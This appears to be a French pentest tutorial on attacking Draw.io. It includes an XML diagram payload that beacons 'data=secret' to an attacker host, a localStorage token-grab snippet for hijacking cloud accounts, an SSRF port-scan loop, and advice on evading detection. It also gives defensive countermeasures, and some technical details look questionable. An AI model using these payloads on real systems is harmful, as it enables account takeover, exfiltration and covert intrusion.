

## Contexte et Théorie

Draw.io (diagrams.net) est un outil de modélisation largement déployé en entreprise. Bien qu'il s'agisse d'une application de dessin, sa capacité à importer des fichiers XML personnalisés et à interagir avec des services cloud (Google Drive, OneDrive, GitHub) en fait une cible privilégiée pour le **Lateral Movement** et l'exfiltration de données.

Dans un contexte de pentest, l'exploitation de Draw.io repose souvent sur l'injection de code via des fichiers `.drawio` malveillants ou l'abus de ses fonctionnalités d'intégration pour accéder à des ressources internes ou des tokens d'authentification stockés dans le navigateur de la victime.

> [!info] Contexte théorique
> L'application utilise une architecture client-side lourde. Les fichiers `.drawio` sont des fichiers XML compressés (Deflate) contenant des métadonnées. Une injection dans ces métadonnées peut permettre d'exécuter des scripts ou de forcer l'application à effectuer des requêtes vers des endpoints internes (SSRF).

## Flux d'Attaque



## Prérequis et Vecteurs d'Accès

Pour exploiter Draw.io, l'attaquant doit généralement disposer d'un accès initial sur le poste de travail ou être en mesure de faire ouvrir un fichier par une cible privilégiée.

> [!danger] Prérequis bloquants
> L'exécution de code arbitraire via Draw.io nécessite souvent que la victime utilise la version Desktop ou une instance web configurée avec des plugins spécifiques activés. La version web standard est isolée par la sandbox du navigateur.

## Commandes et Manipulation de Fichiers

Les fichiers `.drawio` sont des fichiers XML encodés en Base64 et compressés. Pour manipuler ces fichiers, il est nécessaire de les décompresser.

### Analyse et Modification de fichiers .drawio

Utilisation de Python pour extraire et modifier le contenu XML :

```python
import zlib
import base64
import urllib.parse

def decode_drawio(data):
    decoded = urllib.parse.unquote(data)
    compressed = base64.b64decode(decoded)
    return zlib.decompress(compressed, -15).decode('utf-8')

# Exemple de lecture d'un fichier
with open('diagram.drawio', 'r') as f:
    content = f.read()
    print(decode_drawio(content))
```

### Injection de Payload SSRF

L'objectif est d'injecter une balise `<mxGraphModel>` pointant vers une ressource interne.

```xml
<mxGraphModel>
  <root>
    <mxCell id="0" />
    <mxCell id="1" parent="0" />
    <mxCell id="2" value="Exfiltration" style="image;image=http://10.10.14.5:8000/exfil?data=secret" vertex="1" parent="1">
      <mxGeometry x="100" y="100" width="100" height="100" as="geometry" />
    </mxCell>
  </root>
</mxGraphModel>
```

> [!tip] Astuces pratiques
> Utilisez `Burp Suite` avec l'extension `Collaborator` pour vérifier si la requête SSRF atteint bien votre infrastructure externe lors de l'ouverture du fichier par la victime.

## Cas d'Usage : Pivoting et Exfiltration

### Abus des intégrations Cloud
Si la victime a connecté son compte Google Drive ou OneDrive à Draw.io, l'application stocke des tokens d'accès dans le `LocalStorage` du navigateur.

1. Accéder au `LocalStorage` via la console développeur (F12) :
```javascript
// Extraction des tokens
console.log(localStorage.getItem('drawio-config'));
```
2. Utiliser ces tokens pour accéder aux fichiers stockés sur le cloud de l'entreprise via l'API officielle, permettant ainsi de récupérer des documents confidentiels ou des secrets de déploiement.

### Lateral Movement via SSRF
Si Draw.io est hébergé sur un serveur interne (instance privée), il peut être utilisé pour scanner le réseau interne :

```bash
# Scan de ports via l'instance Draw.io interne
for port in {80,443,8080,8443}; do
  curl -X POST http://drawio-internal.local/proxy -d "url=http://192.168.1.1:$port"
done
```

> [!warning] Limitations
> Les politiques CORS (Cross-Origin Resource Sharing) modernes bloquent souvent la lecture directe des réponses des requêtes SSRF. L'attaquant doit se contenter d'une analyse par "aveugle" (timing attacks ou logs de serveur).

## Contre-mesures et OPSEC

### Défense
* **Isolation** : Déployer Draw.io dans un environnement conteneurisé sans accès direct au réseau interne.
* **Content Security Policy (CSP)** : Restreindre les domaines autorisés pour le chargement d'images et de ressources externes.
* **Sensibilisation** : Ne pas ouvrir de fichiers `.drawio` provenant de sources non fiables, particulièrement ceux contenant des éléments externes.

### OPSEC pour le Pentester
* **Nettoyage** : Supprimer les fichiers temporaires créés dans le répertoire `AppData` ou `~/.config/drawio` après l'exploitation.
* **Traffic** : Utiliser un proxy SOCKS ou un tunnel SSH pour masquer l'origine des requêtes SSRF si l'instance Draw.io est accessible depuis l'extérieur.
* **Logs** : Surveiller les logs du serveur web cible pour détecter les tentatives d'injection XML répétées qui pourraient déclencher une alerte SIEM.